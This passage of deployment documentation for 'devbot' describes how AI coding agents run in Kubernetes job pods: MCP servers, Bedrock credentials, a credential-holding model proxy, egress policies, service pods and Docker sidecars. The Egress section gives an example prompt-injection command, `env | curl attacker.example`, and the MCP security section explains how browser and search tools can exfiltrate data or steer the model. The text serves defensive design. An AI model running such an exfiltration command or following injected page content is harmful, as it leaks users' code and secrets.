  `mcp__<server>__<tool>`, which hold even with permission prompts off, so a
  disabled tool can't be called. devbot runs Claude Code with
  `--dangerously-skip-permissions`, where every tool is allowed anyway, so an
  allow list would keep nothing away. A server with `allowed_tools` given to
  a role on `claude` stops devbot at startup: list the tools to keep away in
  `disabled_tools` instead.

### A server that is down

A server that doesn't connect is left out and the run goes on without it.
Claude Code reports each server's status at the start of its stream, and
devbot logs a server that didn't connect (`MCP server unavailable`, with the
role and the status) from the harness. Codex skips a server that isn't
`required`, but its `--json` stream doesn't say which one failed, so devbot
logs only the MCP warnings the stream does carry.

### MCP credentials

The agent CLI connects to an MCP server itself, from the agent container,
where the model runs as root and can read every file and environment
variable. A header with a secret in it, an API key or a bearer token, would
be the model's too, so devbot refuses any server with `headers` at startup.
The [model proxy](#model-proxy) only forwards to its role's model API, so
it can't add a server's headers for the CLI either. Use servers that need no credential, and keep them reachable only from the
job pods' network (a private address, the NetworkPolicy, an ingress that
only accepts the cluster).

### MCP egress

Job pods reach only what their role's [NetworkPolicy](#egress) allows, and
an MCP server is no exception. For each server a role is given whose URL
names an address, `http://10.0.0.5:8931/mcp` say, the chart adds an egress
rule for that address and port to that role's policy itself. A server named
by hostname can't be resolved when the chart renders: allow its address and
port in `networkPolicy.allow`, private or public. For example, a server at
`https://mcp.example.com/...` that resolves to the private `10.20.30.40`:

```yaml
networkPolicy:
  allow:
    - {cidr: 10.20.30.40/32, ports: [443]}
```

With an egress proxy (`networkPolicy.egressProxy`), the CLIs reach a server
through it, like everything else: allow the server's host on the proxy, or
add the host to `egressProxy.noProxy` and its address to `allow`. A private
address always needs listing; `internet: true` never opens one.

### MCP security

A browser or a search tool is an exfiltration channel and an injection
channel. The model can put anything it has read, the repo's code and the
task, into a URL or a search query, and a page or a result can be written to
steer it. Prompts say tool output is untrusted, but that is a request to the
model, not a control. Enable these servers deliberately, per role: a
reviewer, whose verdict can merge, is better off with docs than with a
browser.

### Shared servers

One server, a single playwright browser say, may be used by several job pods
at once, one session per run. A server must tolerate concurrent sessions, or
be scaled out (several replicas behind its URL, or one per job) for as many
jobs as run at once.

### MCP metrics

`devbot_agent_mcp_calls_total{harness, role, server}` counts MCP tool calls,
read from each run's stream: Claude Code's `tool_use` blocks named
`mcp__<server>__<tool>`, and Codex's completed `mcp_tool_call` items, failed
calls included. Only the run's own servers are counted. The run's
[`agent.run` audit record](#audit-logging) has the same counts, and with
`audit.transcript` on, each call is in the run's `agent.transcript`
records, with its tool and arguments.

## Bedrock

Either harness can run its role's model on Amazon Bedrock instead of
Anthropic's or OpenAI's API. A role goes there with `agents.<role>.aws`:

```yaml
config:
  agents:
    implement:
      harness: codex
      model: openai.gpt-5.6-luna  # a Mantle model ID, no us./global. prefix
      aws: {region: us-east-1, auth: irsa}
    review:
      harness: claude
      model: us.anthropic.claude-opus-5-5  # an inference profile ID
      aws: {region: us-east-1, auth: irsa}
```

The harness container sends the role's region with each run, and the agent
sets the harness up for Bedrock. Neither CLI signs anything: each sends the
proxy's placeholder as a Bedrock API key (`AWS_BEARER_TOKEN_BEDROCK`) to the
pod's [model proxy](#model-proxy), which signs each request with SigV4 for
the role's region, with the role's AWS credential, and forwards it:

- **`claude`**: Claude Code with `CLAUDE_CODE_USE_BEDROCK=1`, `AWS_REGION`
  set to the role's region and `ANTHROPIC_BEDROCK_BASE_URL` at the proxy,
  which sends inference (`/model/...`) to `bedrock-runtime.<region>` and
  the inference-profile lookups Claude Code also makes to
  `bedrock.<region>`, both signed for `bedrock`. The proxy refuses any
  other path with a 403, so the model can't use the pod's role for the
  rest of Bedrock's control plane, whatever the role allows there. `model` is an inference profile ID (`us.anthropic.…`,
  `eu.anthropic.…`, `global.anthropic.…`), such as
  `us.anthropic.claude-haiku-5-5`: current Claude models can't be invoked
  on demand by their bare model ID, and Bedrock refuses
  `anthropic.claude-haiku-5-5` with "Retry your request with the ID or ARN
  of an inference profile". Copy the ID from
  `aws bedrock list-inference-profiles` or the console's model catalog.
  Claude Code also runs a small model for background work. If its default Haiku isn't enabled in the account, set
  `ANTHROPIC_DEFAULT_HAIKU_MODEL` to one that is, in `agentEnv` (which goes
  to both roles' sidecars).
- **`codex`**: the Codex CLI with its built-in `amazon-bedrock` model
  provider (`-c model_provider="amazon-bedrock"`), its `base_url` at the
  proxy and `AWS_REGION` set to the role's region. That provider speaks
  Bedrock's OpenAI-compatible Responses API, which the proxy forwards to the
  `bedrock-mantle` endpoint
  (`https://bedrock-mantle.<region>.api.aws/openai/v1`), signed for
  `bedrock-mantle`, and nothing else of Mantle's API
  ([Model proxy](#model-proxy)). `model` is a
  model ID as Mantle lists it, such as `openai.gpt-5.6-luna`,
  `openai.gpt-5.6-sol` or `openai.gpt-6-sol`, with no `us.`/`global.`
  inference-profile prefix: those are for the `bedrock-runtime` endpoint,
  and Mantle answers `us.openai.gpt-5.6-luna` with a 404 ("does not
  exist"). The `gpt-oss` models can't be used with Codex: Mantle serves
  them, but not on the Responses API ("does not support the
  '/openai/v1/responses' API"). Mantle's model listing,
  `GET https://bedrock-mantle.<region>.api.aws/v1/models` signed for the
  `bedrock-mantle` service, gives the IDs (the [policy](#iam-policy) below
  only allows inference, so list them as an administrator):

  ```bash
  curl -s --aws-sigv4 "aws:amz:us-east-1:bedrock-mantle" \
    --user "$AWS_ACCESS_KEY_ID:$AWS_SECRET_ACCESS_KEY" \
    ${AWS_SESSION_TOKEN:+-H "x-amz-security-token: $AWS_SESSION_TOKEN"} \
    https://bedrock-mantle.us-east-1.api.aws/v1/models | jq -r '.data[].id'
  ```

  Mantle runs in fewer regions than Bedrock itself; Codex 0.163.0
  knows us-east-1, us-east-2, us-west-2, ap-south-1, ap-southeast-3,
  ap-northeast-1, eu-central-1, eu-west-1, eu-west-2, eu-south-1, eu-north-1,
  sa-east-1 and the two GovCloud regions, and refuses any other.

Neither harness needs a Bedrock API key: the proxy signs with the role's
AWS credential, however it gets it.

**Cost.** Claude Code prices each run at Anthropic's API rates, which
aren't what Bedrock bills, so on Bedrock devbot reports no cost for it, like
Codex, and `devbot_agent_cost_usd_total` has no series for the role. Use AWS
Cost Explorer or Bedrock's CloudWatch metrics.

**Rate limits.** Bedrock's throttling (`ThrottlingException`,
`ServiceQuotaExceededException`, "Too many tokens, please wait before trying
again") is `rate_limited` for both harnesses, so the task backs off without
spending an attempt, as for any usage limit. An unknown or expired AWS
credential, or a role without access to the model (`AccessDeniedException`,
"is not authorized to perform"), is `auth`.

### Credential modes

`agents.<role>.aws.auth` picks how the role's model proxy gets its AWS
credential. Whatever the mode, each role's job pods run as their own
ServiceAccount, `<release>-implement` or `<release>-review`, which serve
never uses, and the pods carry
`eks.amazonaws.com/skip-containers: harness,agent`, so EKS gives the
credential to the model proxy container only: neither the agent the model
runs in, nor the harness and serve, which hold the forge credentials, get
AWS access. The proxy takes the credential the way the AWS SDKs do, in this
order: static keys, IRSA's web identity (STS `AssumeRoleWithWebIdentity` at
the regional endpoint, or `AWS_ENDPOINT_URL_STS`), then the container
credential endpoint, refreshing a temporary one five minutes before it
expires. It reads no profile, config file or instance metadata.

| `auth` | What the chart does | What you set up |
|---|---|---|
| `irsa` | Annotates the role's ServiceAccount from `jobs.<role>.serviceAccount.annotations`, and mounts no Secret. EKS's webhook adds `AWS_ROLE_ARN`, `AWS_WEB_IDENTITY_TOKEN_FILE` and the projected token; nothing is static. | An IAM role whose trust policy trusts the cluster's OIDC provider for `system:serviceaccount:<namespace>:<release>-<role>`, and `jobs.<role>.serviceAccount.annotations: {eks.amazonaws.com/role-arn: <role ARN>}`. The chart refuses to render `irsa` without it. |
| `pod_identity` | Mounts no Secret. The role's NetworkPolicy allows the EKS Pod Identity agent's link-local endpoint (`169.254.170.23`, `fd00:ec2::23`, port 80). EKS adds `AWS_CONTAINER_CREDENTIALS_FULL_URI` and `AWS_CONTAINER_AUTHORIZATION_TOKEN_FILE`. | The EKS Pod Identity Agent add-on, an IAM role trusting `pods.eks.amazonaws.com` (`sts:AssumeRole`, `sts:TagSession`), and a Pod Identity association of that role with the namespace and `<release>-<role>` (`aws eks create-pod-identity-association`), outside the chart. |
| `access_keys` | Mounts `secrets.agents.<harness>` into the model proxy, as for any credential. | An IAM user's keys in that Secret: `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, and `AWS_SESSION_TOKEN` for temporary ones. Works on any cluster. |

```bash
read -rs K && read -rs S && kubectl -n devbot create secret generic devbot-codex \
  --from-literal=AWS_ACCESS_KEY_ID="$K" --from-literal=AWS_SECRET_ACCESS_KEY="$S"; unset K S
```

### IAM policy

The least the role (or user) needs, for its harness. Narrow `Resource` to
the models and inference profiles you use: an inference profile's ARN, and
the foundation model's ARN in every region the profile routes to.

`claude`:

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "bedrock:InvokeModel",
      "bedrock:InvokeModelWithResponseStream",
      "bedrock:GetInferenceProfile",
      "bedrock:ListInferenceProfiles"
    ],
    "Resource": "*"
  }]
}
```

`codex`: the Mantle endpoint authorizes one action for inference.

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": ["bedrock-mantle:CreateInference"],
    "Resource": "*"
  }]
}
```

### Model access

- The closed-weight serverless models, Anthropic's Claude and OpenAI's
  GPT, are sold through AWS Marketplace and need the account to accept the
  model's agreement before devbot's role can call them: either
  `aws bedrock create-foundation-model-agreement` (with the offer token
  from `aws bedrock list-foundation-model-agreement-offers`), or a first
  call to the model, which subscribes the account and needs
  `aws-marketplace:ViewSubscriptions` and `aws-marketplace:Subscribe` on
  the caller. Do either as an administrator (one request in the console's
  playground is enough), so devbot's role doesn't need Marketplace
  permissions. Open-weight models such as `gpt-oss` need no agreement.
- Anthropic's models also need the account's one-time use-case details
  form, from the console's model catalog, before the first call.
- An SCP or permissions boundary that limits regions must allow every
  region a cross-region inference profile routes to.

### What has been verified

| | How |
|---|---|
| The proxy's SigV4 | `internal/modelproxy` tests: AWS's own SigV4 test-suite signatures, and the signature `curl --aws-sigv4` makes for a Bedrock-shaped request (a model ID's `:` in the path, a repeated query parameter, a body), byte for byte. |
| Claude Code 2.1.299 and Codex 0.163.0 on Bedrock through the proxy | Each real CLI, set up by its harness, run through the proxy against a fake upstream, 2026-10-17: each sent only the placeholder, and the upstream got a SigV4 signature for `bedrock` (inference at `/model/<id>/invoke` with the `:` escaped, and `/inference-profiles`) or `bedrock-mantle` (`/openai/v1/responses`). |
| A run on Bedrock, per harness, with real static keys | The live test below passed on 2026-10-17 in us-east-1 with a least-privilege IAM user (`claude` with `us.anthropic.claude-haiku-5-5`, `codex` with `openai.gpt-5.6-luna`), with each CLI signing itself. **It hasn't run through the proxy**: run it before relying on Bedrock. |
| IRSA and Pod Identity | The proxy's STS and container-endpoint clients against fakes, and render tests (`deploy/chart_test.go`: ServiceAccounts, annotations, Secrets, network policy). No EKS cluster has run them. |
| Throttling, auth errors, no cost on Bedrock | Unit tests against fake CLIs, with Bedrock's answers as each real CLI reported them. Bedrock's errors reach the CLI through the proxy unchanged; a credential the proxy can't get is a 401 to the CLI, so `auth`. |

### Running the live Bedrock test

`internal/agent/bedrock_live_test.go` runs one small implement per harness
against real Bedrock the way a job pod runs it: through the agent, with the
CLI pointed at a model proxy in the test's process that holds static keys
and nothing else. It unsets any Bedrock API key, profile, web identity or
other harness credential, and points the AWS config files at `/dev/null`, so
a pass means the harness works through the proxy and the proxy's SigV4 is
right for its endpoint. It only builds with
the `bedrock_live` tag.

It needs `claude` and `codex` on the `PATH` (the versions
`docker/Dockerfile` pins), `git`, and a least-privilege IAM user with the
[policy](#iam-policy) for both harnesses, in an account where both models are
[enabled](#model-access).

| Variable | For |
|---|---|
| `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`, `AWS_SESSION_TOKEN` (optional) | the user's keys |
| `DEVBOT_LIVE_BEDROCK_REGION` | the region, one Mantle serves for Codex |
| `DEVBOT_LIVE_BEDROCK_CLAUDE_MODEL` | a Claude inference profile ID, e.g. `us.anthropic.claude-haiku-5-5`; the `claude` run is skipped without it |
| `DEVBOT_LIVE_BEDROCK_CODEX_MODEL` | a model ID [as Mantle lists it](#bedrock), e.g. `openai.gpt-5.6-luna`, with no `us.` prefix and not a `gpt-oss` model; the `codex` run is skipped without it |
| `DEVBOT_LIVE_CLAUDE_COMMAND`, `DEVBOT_LIVE_CODEX_COMMAND` | the CLIs, if not `claude` and `codex` on the `PATH` |

```bash
go test -tags bedrock_live -count=1 -v -timeout 30m -run TestLiveBedrock ./internal/agent/
```

Each run logs a `RESULT` line with its error class, turns and tokens. The
`codex` run also fails if Codex left a plugin catalogue clone
(`.tmp/plugins-clone-*` or `.tmp/plugins`) in its `CODEX_HOME`. It
works in temporary directories and creates nothing in AWS; the IAM user and
its keys, and any Marketplace subscription the first call made, are yours to
remove afterwards.

### Running the live model API test

`internal/agent/model_live_test.go` does the same against the vendor APIs:
one small implement per harness, through the agent, with the CLI given only
the [model proxy](#model-proxy)'s address and placeholder, and a proxy in
the test's process holding the credential from the environment
(`CLAUDE_CODE_OAUTH_TOKEN` or `ANTHROPIC_API_KEY` for `claude`,
`CODEX_API_KEY` for `codex`). A harness whose credential isn't set is
skipped. `DEVBOT_LIVE_CLAUDE_MODEL` and `DEVBOT_LIVE_CODEX_MODEL` pick the
models (the CLI's default without them), and `DEVBOT_LIVE_CLAUDE_COMMAND`
and `DEVBOT_LIVE_CODEX_COMMAND` the CLIs. It only builds with the
`model_live` tag:

```bash
go test -tags model_live -count=1 -v -timeout 30m -run TestLiveModelAPI ./internal/agent/
```

A pass means a real model answered its real CLI through the proxy. It
hasn't been run yet: run it, and the Bedrock test, before relying on the
proxy.

## Model proxy

A job pod has three containers: the harness (the forge credential), the
agent sidecar the model runs in (no credential at all), and the **model
proxy**, `devbot model-proxy <role>`, which holds the role's model credential
and nothing else: `secrets.agents.<harness>`, or the AWS credential EKS
injects for `irsa` and `pod_identity`. It mounts neither the workspace nor
the agent's socket. See [architecture.md](architecture.md#the-model-credential)
for why.

The proxy listens on the pod's loopback (`127.0.0.1:8462`) and writes its
address and a placeholder token, random per pod, to
`/run/devbot-model/proxy.json`, which the agent mounts read-only. The agent
gives each CLI the placeholder in place of the credential:

| Role runs | The CLI gets | The proxy forwards to, with |
|---|---|---|
| `claude` | `ANTHROPIC_BASE_URL`, and `CLAUDE_CODE_OAUTH_TOKEN` or `ANTHROPIC_API_KEY` as the Secret has | `https://api.anthropic.com`: the Secret's `CLAUDE_CODE_OAUTH_TOKEN` as `Authorization: Bearer`, or else its `ANTHROPIC_API_KEY` as `x-api-key` |
| `claude` on Bedrock | `CLAUDE_CODE_USE_BEDROCK=1`, `AWS_REGION`, `ANTHROPIC_BEDROCK_BASE_URL`, `AWS_BEARER_TOKEN_BEDROCK` | `bedrock-runtime.<region>.amazonaws.com` for `/model/...`, `bedrock.<region>.amazonaws.com` for `/inference-profiles`: SigV4 for `bedrock` |
| `codex` | `CODEX_API_KEY`, `-c openai_base_url=...` | `https://api.openai.com`: the Secret's `CODEX_API_KEY` as `Authorization: Bearer` |
| `codex` on Bedrock | `AWS_REGION`, `AWS_BEARER_TOKEN_BEDROCK`, the `amazon-bedrock` provider's `base_url` | `bedrock-mantle.<region>.api.aws`: SigV4 for `bedrock-mantle` |

The proxy forwards only the routes each CLI calls, and answers anything else
with a 403 that reaches no API, logging `model proxy: a request its model
doesn't need`:

| Role runs | Routes forwarded |
|---|---|
| `claude` | `POST /v1/messages`, `POST /v1/messages/count_tokens`, `GET /v1/models` |
| `claude` on Bedrock | any `/model/...`, `/inference-profiles` and `/inference-profiles/...` |
| `codex` | `GET /v1/responses` (its WebSocket), `POST /v1/responses`, `GET /v1/models` |
| `codex` on Bedrock | the same as `codex`, under `/openai/v1` |

A path matches whole, query string aside: `/v1/messages/batches`,
`/v1/files`, `/v1/vector_stores` or `/v1/organizations/...` are refused. So
the model can't use the install's key, or the reach of a Claude
subscription's OAuth token, to list, read or create files, batches, vector
stores or organization settings that belong to other workloads on the same
account. The `/responses` and `/v1/messages` routes are what the pinned CLI
versions send through the proxy in a run; the token count and the model list
are there because both CLIs have code that calls them and they hold nothing
of anyone's. The test `TestPinnedCLIsThroughTheProxy` (`internal/modelproxy`)
runs each CLI through the proxy to a fake API and fails if the proxy refuses
anything it asks for: run it with the new CLI on the `PATH` when bumping
`CLAUDE_VERSION` or `CODEX_VERSION` in `docker/Dockerfile`. A CLI that needs
a route the list lacks fails its runs with the 403 in its error.

A request without the placeholder gets a 401 and goes nowhere, and the proxy
logs `model proxy: a request without the pod's token`. One the proxy can't
get a credential for (STS or the Pod Identity agent unreachable, say) is a
401 to the CLI, so the run fails as `auth`, with the reason in the agent's
`Stderr` and the proxy's log. The model can call those routes through the
proxy while the job runs, but can't take the credential out of the pod; the
checks and setup scripts get neither it nor the placeholder.
A path with a `.` or `..` segment, encoded or not, is a 403 in every mode,
so an allowed prefix can't resolve, upstream, to a path the proxy refuses.

The pod's sidecars start in order, the model proxy first, and the agent waits
up to two minutes for the proxy's file. A proxy that won't start (no
credential in its Secret, say) logs why and exits, so the harness never
starts and the pod takes no job. With `DEVBOT_AGENT_SOCKET=local`, for development,
`devbot run` starts the proxy in its own process.

## Egress

Each role's job pods run under a NetworkPolicy, `<release>-<role>`, on by
default (`networkPolicy.enabled`). Kubernetes applies it to the whole pod,
all three containers, and it allows only:

- DNS (`kube-dns`, port 53) and the chart's Redis;
- the role's model API, on 443: `networkPolicy.modelAPI.<harness>`, or
  `.bedrock` for a role on Bedrock; with `pod_identity`, the EKS Pod
  Identity agent on the node (`169.254.170.23`, `fd00:ec2::23`, port 80);
- the egress proxy (`networkPolicy.egressProxy`), if one is set;
- `networkPolicy.allow` and `networkPolicy.extraEgress`;
- with `services.enabled`, this release's service pods, each of which admits
  only its own run's job pod (see [Service containers](#service-containers));
- with `networkPolicy.internet`, any public address, but not
  `privateCIDRs`.

Everything else is denied: the rest of the cluster, the LAN, and, unless
`internet` is on, the internet. A prompt injection that has the model run
`env | curl attacker.example` finds no credential in the environment and no
route to send it. Private ranges are only reachable by listing them in
`allow` (or `egressProxy`).

The same policy takes no ingress: nothing in the cluster connects to a job
pod. Nothing needs to. The harness dials out to the run's service pod and
relays it on the pod's own loopback ([Service
containers](#service-containers)), a Docker pod's containers publish their
ports on the pod for the run alone ([Docker](#docker)), and the model proxy
listens on loopback.

Anthropic publishes its API's addresses, so a `claude` role works with the
defaults. OpenAI and AWS don't publish ranges small enough to list: for
`codex`, or any role on Bedrock, list what you trust in `modelAPI` (for
Bedrock, the VPC interface endpoints of `bedrock-runtime`, `bedrock` and
`bedrock-mantle` in the role's region, and `sts` for `irsa`), or send the
model proxy through the egress proxy. The chart refuses to render a role
with no way to its model API.

The harness needs the forge too, and the agent's telemetry its collector:
allow them, or reach them through the egress proxy. With none of `allow`,
`extraEgress`, `egressProxy.url` or `internet` set, nothing reaches the
forge and every job fails at clone; `helm install` and `helm upgrade` say
so in their notes.

**The trade-off.** devbot's agent [provisions its own runtime](architecture.md#principles):
it installs languages, packages and services for each repo, from wherever
the repo needs them. Under the default policy it reaches no registry at all,
so setup fails. Pick one:

- **An egress proxy** (`egressProxy`) that allows a list of hosts: the
  forge, the model APIs, and the registries your repos use. Every job
  container gets `HTTPS_PROXY`, which `apt`, `mise`, `curl`, the language
  package managers, git and both CLIs honour; anything not on the proxy's
  list fails. This is the usual choice: the model can still send what it
  sees to an allowed host it controls (a package registry it can publish
  to, say), so keep the list to what you need. With Squid, for example:

  ```text
  acl devbot dstdomain api.github.com github.com codeload.github.com .githubusercontent.com
  acl devbot dstdomain deb.debian.org mise.jdx.dev nodejs.org registry.npmjs.org pypi.org files.pythonhosted.org proxy.golang.org sum.golang.org
  http_access allow devbot
  http_access deny all
  ```

- **A registry mirror** (below), alone or behind the egress proxy, so the
  policy only needs the mirror.
- **`internet: true`**: any public address.
  Self-provisioning works for any repo, and whatever the model reads (the
  repo, the issue, the workspace) can be sent anywhere. It still can't
  send a credential, since none is in its container, or reach the cluster
  and the LAN.

### A registry mirror

A caching mirror (Artifactory, Nexus, a Go module proxy, a PyPI or npm
mirror) lets job pods install packages from one place you control. Allow it
(`allow: [{namespace: mirror}]`, or its address), add it to
`egressProxy.noProxy` if there is an egress proxy, and point the package
managers at it in `agentEnv`, which the agent passes on to the model's
commands and the checks:

```yaml
agentEnv:
  GOPROXY: https://mirror.example.com/go
  PIP_INDEX_URL: https://mirror.example.com/pypi/simple
  UV_DEFAULT_INDEX: https://mirror.example.com/pypi/simple
  npm_config_registry: https://mirror.example.com/npm/
networkPolicy:
  allow:
    - { namespace: mirror, ports: [443] }
```

Tools a variable doesn't redirect (`apt`'s sources, `mise`'s downloads)
still need the egress proxy, or a repo's `setup` that configures them; the
agent's prompt tells the model nothing about the mirror, so a repo that
needs more than the variables should say so in its own guidance.

## Service containers

A repo whose tests need a service the agent can't install (a database
built with an extension, a KMS) declares it in its `.devbot.yaml`
`services`, with the env its tests read (see
[devbot-yaml.md](devbot-yaml.md#services)). Every implement and review run
gets its own instances: started for that run, deleted with it, sharing
nothing with any other run.

**Turning it on.** Set `services.enabled: true` and list the images repos
may run:

```yaml
services:
  enabled: true
  readyTimeout: 5m
  resources:                  # a service that sets none
    requests: { cpu: 100m, memory: 256Mi }
    limits: { cpu: "1", memory: 1Gi, ephemeral_storage: 2Gi }
config:
  repos:
    limits:
      services:
        images: [registry.example.com/, docker.io/openbao/]
        max: 4                # services a run; 0 allows none
        cpu: "2"              # the most one service may ask for
        memory: 4Gi
```

Each `images` entry is a prefix ending in `/`, `:` or `@`, or one image by
tag or digest (`docker.io/library/postgres:17`); `ghcr.io/acme` is refused,
since it would also match `ghcr.io/acme-evil/x`. A `.devbot.yaml` outside
these limits is refused with the rule it broke, before anything starts.

To allow any image, set `images: ["*"]`, alone. The count, CPU and memory
ceilings still hold, and so do the admission policy's pod-shape rules, but
there is no allow-list: anyone who can change a repo's `.devbot.yaml` can
have the install pull and run any image, as with
[Docker](#docker).

**Private images.** A service image in a registry the nodes can't pull
from anonymously, such as a CI Postgres built with an extension, needs a
pull secret. Create it as for the [claude image](#building-the-claude-image)
and list it in `imagePullSecrets`: every service pod names it, for the
kubelet alone, and no service container gets it. A Secret it doesn't list
can't be named: the admission policy refuses serve any other.

```yaml
imagePullSecrets: [{name: regcred}]
```

**How it works.** A KEDA ScaledJob's pod template is the same for every job
of its role, so a repo's services can't be containers of the job pod.
Instead serve, the one part of devbot with Kubernetes API access, starts a
**service pod** per run, beside the job pod:



1. The harness records the services on its job's lease and listens on its
   pod's loopback at every service port, before the model starts.
2. serve's leader checks the lease's pod is one of this release's job pods
   of the lease's role, owned by a Job, and the services are within
   `repos.limits.services` (a lease is only as trustworthy as whoever can
   write Redis), then creates the run's NetworkPolicy and service pod, both
   named `<job pod>-services` and owned by the Job.
3. The pod runs every service as a container, sharing its loopback, so one
   reaches another on `127.0.0.1`. Its containers run as the images expect
   (root in the pod's user namespace with `jobs.userNamespaces`), without
   privilege escalation, `NET_RAW` or `MKNOD`, under the RuntimeDefault
   seccomp profile; the pod has no volumes, no API token
   (`<release>-services`), no restarts, and `activeDeadlineSeconds` of its
   run's role. It runs where job pods do (`jobs.nodeSelector`,
   `tolerations`, `affinity`, `runtimeClassName`).
4. serve records how it is doing in `devbot:services:<job pod>`, and the
   harness waits for every container to be ready before the model starts.
   Then it relays each connection to `127.0.0.1:<port>` (and `[::1]`) to the
   service pod, so the agent's commands, the checks and the reviewer reach
   the services at `localhost`, as in CI.
5. serve deletes a service pod and its NetworkPolicy as soon as no live
   lease wants it: the job released its lease (succeeded, failed, was
   cancelled or timed out) and its pod finished, its pod is gone (killed:
   also within the lease's 2 minutes), or its services failed. A service
   pod no lease names at all is kept while its job pod runs: Redis was
   wiped, and the job's next heartbeat re-takes the lease with the pod and
   services it described. A job that can't reach Redis for as long as the
   lease's TTL stops instead ([lost leases](architecture.md#the-state-machine)),
   and its services go with it. If serve is down, the pod stops at its
   deadline, and Kubernetes deletes both with their Job (`ttlSecondsAfterFinished`)
   whatever happens.

**Failures.** A service whose image can't be pulled (`ImagePullBackOff`,
`InvalidImageName`), that can't start (`CreateContainerConfigError`), that
exits (with the end of its log, from `terminationMessagePolicy:
FallbackToLogsOnError`), that Kubernetes refuses (admission, quota), or that
isn't ready within `services.ready_timeout` (an unschedulable pod included)
stops the task at `devbot/needs-human` with that reason, before the model
starts, without using an attempt. serve doesn't start a run's failed
services again.

The harness goes on reading their status while the model and the checks
run. A service that exits after it was ready (killed for memory, say), a
service pod evicted (over `services.resources.limits.ephemeral_storage`,
say) or deleted, fails them for good too, and stops the run there: the
task goes to `devbot/needs-human` saying which service stopped and why,
and it isn't counted as an attempt or a failed review, since the model
would otherwise only see connection errors. serve never starts a run's
services again in a new pod, which would hand it empty services at
another address. A status the harness can't read (Redis out of reach)
changes nothing. `services.ready_timeout` is only for getting ready the
first time: a service that was ready and then misses its readiness probe
(slow under a test run's load) is waited on, and the run goes on.

**Isolation.** Each run's services are its own pod, so no two runs share a
port, a process or data. With `networkPolicy.enabled`:

- the chart's `<release>-services` policy gives every service pod no
  ingress, and egress to DNS and `services.extraEgress` alone;
- each run's policy admits only pods with the run's Job's
  `batch.kubernetes.io/controller-uid`, its own job pod, at its service
  ports. NetworkPolicies only add to what is allowed, so no other run's pod
  (nor anything else in the cluster) reaches it;
- job pods may connect to service pods; which one admits them is the
  service pod's policy's call. Nothing connects back in to a job pod:
  its role's policy takes no ingress ([Egress](#egress)).

What serve's Role and admission policies allow it to do for this is in
[Security](#security). The services see nothing of the job's: no forge or
model credential, no workspace. A service's env, like the repo's `env`, is
in `.devbot.yaml`, so no secret belongs in either.

## Docker

**Before turning it on**, check each of these; [dind](#dind) has the
reasons:

- [ ] Job nodes run `hostUsers: false` pods: `jobs.userNamespaces: true`
  (the default) and the user-namespace requirements in
  [Prerequisites](#prerequisites). The chart refuses `dind` without it.
- [ ] `docker.dind.acceptLooserSandbox: true` in your values: the daemon's
  container runs with Unconfined seccomp and AppArmor, `procMount:
  Unmasked` and privilege escalation.
- [ ] Pod Security doesn't enforce `baseline` (or `restricted`) on devbot's
  namespace: Docker job pods and the TUN device plugin fail both.
- [ ] A `/dev/net/tun` device plugin on every node job pods can run on: the
  chart's DaemonSet, `<release>-tun-plugin` (`docker.dind.tunPlugin.enabled`,
  the default), or one you already run, named in `docker.dind.tunResource`
  with `tunPlugin.enabled: false`.
- [ ] The job nodes let an unconfined process create user namespaces. On
  Ubuntu 24.04 and later, set `kernel.apparmor_restrict_unprivileged_userns=0`
  (in `/etc/sysctl.d/`), or give the daemon a Localhost AppArmor profile
  that allows `userns` and `mount` (`docker.dind.appArmorProfile`).
- [ ] `docker.mode: dind` set. Without it nothing gets a daemon:
  `docker.detect`, a repo's `docker: true` and `repos.defaults.docker` only
  act when `docker.mode` is set.

Tests that start their own containers through the Docker API
(testcontainers in any language, docker-compose-based setups) need a Docker
daemon, which job pods don't have. The install provides one with
`docker.mode: dind`, a rootless Docker daemon in a sidecar of the job pod
([below](#dind)). Then every implement and review run of a repo that gets
one has a daemon of its own, at `DOCKER_HOST`
(`unix:///devbot-docker/docker.sock`), with `TESTCONTAINERS_RYUK_DISABLED=true`,
for the model's commands and the checks.

Which repos get one: a repo's own `docker` in its `.devbot.yaml` decides,
`true` or `false`; for a repo without the file, a `docker` key in
`repos.defaults` does. A repo that leaves it unset gets a daemon when its
task's base branch shows its tests start containers: a testcontainers
dependency or a Compose file, at the root or up to two directories down
([the signals](devbot-yaml.md#docker)). `docker.detect: false` turns that
detection off, so only `docker: true` counts, and `repos.limits.docker:
false` gives no repo a daemon at all.

Detection reads the task's base branch, never a PR's head, so a task can't
turn it on for itself. It costs serve one call for the branch's head commit
each time it queues a job of such a repo and, once per repo and commit, one
recursive tree listing and at most 16 reads of small manifests (none for a
Compose file, which its name gives away), which serve remembers by commit.
When the forge won't list the tree or a read fails, serve logs a warning,
counts it in `devbot_docker_detection_errors_total`, and the repo's runs get
no daemon. Gitea's tree is paged through to its end, however many files; a
GitHub tree cut short (past 100,000 entries or 7 MB) is read again a
directory at a time, so only a single directory GitHub won't list in one
response is left unlisted. When it
turns the daemon on, serve logs it, writes a `docker.detected` [audit
record](#audit-logging), and the task's start status and the model's
context name the file that did.

**Only the repos that get one pay for it.** A KEDA ScaledJob's pod template
can't vary by the job a pod goes on to take, so with `docker.mode` set each
role has a second ScaledJob, `<release>-<role>-docker`, whose pods carry the
daemon's sidecar (its 500m CPU, 512Mi memory and 1Gi storage requests, and
its looser [sandbox](#dind)). serve queues the jobs of a repo that gets a
daemon on that role's Docker list (`devbot:q:implement-docker`,
`devbot:q:review-docker`, and `devbot:q:integrate-docker` for a parent's
[integration check](devbot-yaml.md#integration-checks), which implement pods
take), which only those pods take, and every other job
where it always went. A job queued before its repo turned `docker` on or off
is put back on the list the repo names now by the pod that takes it, before
it starts; one that detection put on a Docker list stays there unless the
repo has since set `docker` itself, or the install turned detection off.
Without `docker.mode` there are no pods to take the Docker lists, so serve
moves whatever is on them, and any delayed Docker job, to the plain lists on
every reconcile.

**Each run's Docker is its own.** The daemon, its image and layer store (an
`emptyDir`), and every container, network and published port it has are
in the run's own pod, so concurrent runs never see each other's. Its
containers are processes in the pod, so they stop when the pod does,
whatever ends it: the run finishing, failing, timing out at
`activeDeadlineSeconds`, or the pod being deleted. Nothing connects into a
Docker pod, whose containers' published ports are bound on the pod: its
role's NetworkPolicy, like every job pod's, denies all ingress, and the
daemon pulls images through that policy's [egress](#egress).

**No credential within the daemon's reach.** A Docker job pod has
`automountServiceAccountToken: false` and no projected token in any
